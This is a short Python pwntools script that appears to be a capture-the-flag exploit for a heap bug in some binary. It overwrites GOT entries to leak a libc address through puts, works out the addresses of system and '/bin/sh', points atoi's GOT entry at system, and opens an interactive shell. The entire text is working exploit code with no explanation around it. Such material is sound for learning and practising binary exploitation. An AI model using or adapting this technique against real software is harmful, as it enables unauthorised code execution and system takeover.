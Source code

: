 ```python
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']
payload = 'a'*(0x8) + p64(free_got) + p64(puts_got) + p64(atoi_got)

edit(2, len(payload), payload)
payload = p64(puts_plt)
edit(0, len(payload), payload)
delete(1)

puts_addr = u64(p.recv(6).ljust(8, '\x00'))
libc_addr = puts_addr - libc.symbols['puts']
sys_addr = libc_addr + libc.symbols['system']
bin_addr = libc_addr + libc.search('/bin/sh').next()
log.success('libc base: ' + hex(libc_addr))
log.success('/bin/sh addr: ' + hex(bin_addr))
log.success('system addr: ' + hex(sys_addr))
payload = p64(sys_addr)
edit(2, len(payload), payload)
p.send(p64(bin_addr))
p.interactive()
```

